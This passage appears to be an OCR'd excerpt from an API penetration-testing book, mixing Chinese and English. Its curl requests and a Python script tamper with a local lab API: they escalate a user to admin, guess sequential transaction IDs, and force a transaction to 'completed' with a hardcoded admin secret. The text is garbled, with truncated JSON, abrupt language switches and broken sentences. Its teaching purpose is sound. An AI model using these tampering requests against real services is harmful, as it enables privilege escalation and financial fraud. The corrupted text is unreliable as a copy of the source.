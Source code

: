 ```

    "message": "用户角色已更新"

    }

    ```

    				3.  Confirm that the tampering actually worked:

    ```

    $ curl http://localhost:5000/api/user/1

    {

    "id": 1,

    "name": "Alice",

    "email": "alice@example.com",

    "role": "admin"

    /transaction 一笔交易涉及金融信息。为了检索一些数据，我们需要提供交易 ID。我们可以推测数值顺序（比如 1？）：

    ```
    $ curl http://localhost:5000/api/transaction/1
    {
      "id": 1,
      "user_id": 1,
      "amount": 100,
      "status": "pending"
    pending. Let’s cause data corruption by forcing the transaction to complete and by leveraging the *top secret* password with another simple Python code (this code can be downloaded from https://github.com/PacktPublishing/Pentesting-APIs/blob/main/chapters/chapter09/parameter_tampering/manipulate_transaction_status.py):

    ```

    import requests

    data = {

    'transaction_id': '1',

    'status': 'completed',

    'auth': 'admin_secret'

    }

    response = requests.post(

    'http://localhost:5000/api/admin/update_status', data=data

    )

    print(response.json())

    ```

    Guess what, the transaction is now finished.

```